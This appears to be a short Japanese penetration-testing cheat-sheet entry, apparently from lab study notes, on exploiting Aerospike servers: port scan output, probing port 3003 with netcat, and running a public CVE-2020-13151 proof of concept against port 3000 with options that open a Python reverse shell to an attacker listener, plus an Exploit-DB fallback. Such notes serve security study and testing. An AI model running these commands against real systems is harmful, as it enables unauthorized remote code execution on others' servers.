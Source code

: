 # AeroSpike(3000,3001,3003)

```bash
3000/tcp open  ppp
3003/tcp open  cgms
```

```bash
nc -nv 192.168.168.143 3003
help #コマンド一覧
version #製品バージョン確認
```

```
searchsploit aerospike
```

![image-20230401093836869](img/Aerospike(3003)/image-20230401093836869.png)

以下パッチが刺さる

https://github.com/b4ny4n/CVE-2020-13151

```bash
python cve2020-13151.py --ahost 192.168.154.143 --aport=3000 --pythonshell --lhost 192.168.119.154 --lport 8000
```

※3003ではなく3000を指定する必要あり

Exploit-dbはこちら（うまく刺さらない場合）

```
searchsploit -m 49067 
```

